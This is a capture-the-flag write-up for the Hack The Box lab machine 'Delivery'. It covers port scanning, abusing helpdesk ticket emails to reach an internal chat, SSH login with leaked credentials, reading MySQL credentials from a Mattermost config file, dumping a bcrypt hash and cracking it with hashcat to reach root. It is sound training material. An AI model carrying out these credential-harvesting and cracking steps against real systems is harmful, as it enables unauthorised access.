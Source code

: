 ![DELIVERY](images/banner.png)
```
$sudo nmap -sS -sV 10.129.138.106
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    nginx 1.14.2
```

## User

We can create a new ticket on http://helpdesk.delivery.htb/ .
Once we created our ticket there will be an email account created aswell automatically which we can then use to identify at the mettermost server. The mail adress will be our ticket-ID + @delivery.htb. 
So 1234567@delivery.htb for example.
We can read the internal chat and find: 

![chat.png](images/chat.png)

Looks like someone left something juice for us: Youve_G0t_Mail!

we can use that to ssh into maildeliverer@delivery.htb and get the user.txt.

## Root

For root we only need little enumeration so after finding the config.json 

```
cat /opt/mattermost/config/config.json
```

![config.png](images/config.png)

we got creds for a local mysql server.


which we can use to connect to it:

```
mysql -u mmuser -p 'Crack_The_MM_Admin_PW'
```

Crack the MM Admin PW is already a huge clue so lets select the mattermost database:

```
use mattermost
```
and print all entries for the users:

```
SELECT * FROM Users;
```
there is the hashed admin password which we assume we need to crack since that was the hint: 

```
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

We already have the information from the chat that we can use a basic rule set to check all variants of common phrases like "PleaseSubscribe!".

So lets do that. We use this rule set: https://github.com/hashcat/hashcat/blob/master/rules/best64.rule and checked on https://www.tunnelsup.com/hash-analyzer/ what kind of hash we have. It's a bcrypt hash which is very common. 

![hash.png](images/hash.png)

Now we have all the information we need to fire up hashcat:

```
sudo hashcat -m 3200 hash.txt dict.dict -r rule.rule --debug-mode=1 --debug-file=matched.rule --force
```
where -m 3200 is the module id for a bcrypt hash, 
-r rule.rule ist our ruleset
hash.txt ist our hash
and dict.dict is a file which only contains `PleaseSubscribe`
we needed to use --force on the PwnBox, it shouldn't be neccessary elsewhere

![cracked.png](images/cracked.png)

we now have our root password with which we can

```
su root
```



